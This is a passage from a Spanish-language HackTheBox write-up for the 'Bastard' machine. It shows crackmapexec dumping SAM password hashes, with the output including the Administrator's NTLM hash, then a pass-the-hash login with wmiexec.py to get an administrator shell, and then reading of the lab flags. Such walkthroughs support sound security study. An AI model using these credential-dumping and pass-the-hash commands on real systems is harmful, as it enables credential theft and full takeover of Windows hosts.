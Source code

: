 Dumpeamos los hashes de los usuarios de la máquina víctima

```bash
cme smb 127.0.0.1 -u 'bastiant1c' -p 'bast1ant1c!' --sam
```

```bash
#OUTPUT
SMB         127.0.0.1       445    BASTARD          [+] Dumping SAM hashes
SMB         127.0.0.1       445    BASTARD          Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3c87620c26302e9f04a756e3301e63a:::
SMB         127.0.0.1       445    BASTARD          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         127.0.0.1       445    BASTARD          dimitris:1004:aad3b435b51404eeaad3b435b51404ee:57544bb8930967eee7f44d46f8bfe59d:::
```

Ejecutamos `wmiexec.py` para acceder a una consola interactiva como el usuario Administrator

```bash
wmiexec.py WORGROUP/Administrator@10.10.10.9 -hashes :d3c87620c26302e9f04a756e3301e63a
```

```bash
#OUTPUT
C:\>whoami
bastard\administrator 
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
#USER
cd C:\
dir /r/s user.txt
C:\Users\dimitris\Desktop\user.txt
set /P user=<"C:\Users\dimitris\Desktop\user.txt"
echo.%user:~0,10%
ba22fde193
```

```bash
dir /r/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~0,10%
4bf12b963d
```

¡Hemos logrado completar la máquina `bastard` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/bastard/03-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**

